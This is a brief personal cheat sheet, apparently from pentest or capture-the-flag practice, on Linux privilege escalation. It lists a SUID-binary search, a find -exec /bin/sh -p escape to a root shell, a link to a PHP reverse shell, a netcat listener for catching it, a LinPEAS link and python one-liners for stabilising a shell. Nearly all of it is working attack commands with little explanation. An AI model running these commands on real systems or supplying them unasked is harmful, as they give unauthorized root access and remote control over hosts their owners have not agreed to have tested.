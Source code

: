 # Privilege Escalation

sudo -l

Shows what the user can run as root without needing the root password

## https://gtfobins.github.io/

## SUID executables
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

find xxx -exec whoami \;

find . -exec /bin/sh -p \; -quit


## Reverse Shell

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 443

## LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS


## 
https://gtfobins.github.io/gtfobins/python/




## Stabilize shell

to stabilize your shell run :

python -c 'import pty; pty.spawn("/bin/bash")'
and

python -c 'import os; os.system("/bin/bash")'

